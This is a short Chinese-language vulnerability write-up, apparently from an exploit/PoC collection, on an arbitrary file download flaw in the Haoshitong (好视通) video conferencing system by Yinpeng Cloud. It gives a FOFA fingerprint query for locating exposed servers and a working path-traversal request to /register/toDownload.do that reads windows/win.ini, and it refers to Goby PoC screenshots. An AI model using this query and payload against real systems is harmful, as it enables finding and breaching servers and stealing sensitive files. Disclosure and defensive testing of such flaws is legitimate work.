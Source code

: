 # 银澎云计算 好视通视频会议系统 任意文件下载

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 银澎云计算 好视通视频会议系统

## FOFA

> [!NOTE]
>
> app="Hanming-Video-Conferencing"

## 漏洞复现

登录页面如下

![](image/yp-1.png)

漏洞Url为

```
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![](image/yp-2.png)

## Goby & POC

![](image/yp-3.png)

![](image/yp-4.png)